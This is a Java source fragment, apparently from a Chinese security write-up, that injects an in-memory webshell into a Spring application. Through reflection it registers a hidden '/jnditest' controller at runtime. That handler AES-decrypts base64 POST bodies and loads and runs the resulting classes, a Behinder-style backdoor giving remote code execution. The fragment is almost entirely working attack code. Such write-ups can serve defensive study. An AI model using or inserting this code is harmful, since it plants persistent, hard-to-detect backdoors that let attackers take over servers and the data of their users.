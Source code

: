 ```java
        Object  mappingRegistry = (Object) method.invoke(abstractHandlerMethodMapping);
        Field field = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry").getDeclaredField("urlLookup");
        field.setAccessible(true);
        Map urlLookup = (Map) field.get(mappingRegistry);
        Iterator urlIterator = urlLookup.keySet().iterator();
        List<String> urls = new ArrayList();
        while (urlIterator.hasNext()){
            String urlPath = (String) urlIterator.next();
            if ("/jnditest".equals(urlPath)){
                System.out.println("url已存在");
                return;
            }
        }
        // 可选步骤，判断url是否存在
        // 2. 通过反射获得自定义 controller 中test的 Method 对象
        Method method2 = Exec.class.getMethod("test");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/jnditest");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，加入“aaa”参数是为了触发第二个构造函数避免无限循环
        Exec injectToController = new Exec("aaa");
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
        System.out.println("hello world");
    }
    // controller指定的处理方法
    public HttpServletResponse test() throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidKeyException, IOException, BadPaddingException, IllegalBlockSizeException, IllegalAccessException, InstantiationException {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        HttpSession session = request.getSession();
        if (request.getMethod().equals("POST")) {
            session.setAttribute("u", this.k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(this.k.getBytes(), "AES"));
            Exec helloWorldController = new Exec(ClassLoader.getSystemClassLoader());
            String base64String = request.getReader().readLine();
            byte[] bytesEncrypted = new sun.misc.BASE64Decoder().decodeBuffer(base64String);
            byte[] bytesDecrypted = c.doFinal(bytesEncrypted);
            Class newClass = helloWorldController.g(bytesDecrypted);
            Map<String, Object> pageContext = new HashMap<String, Object>();
            pageContext.put("session", session);
            pageContext.put("request", request);
            pageContext.put("response", response);
            newClass.newInstance().equals(pageContext);
        }
        return response;
    }
}

```
生成的Exec.class
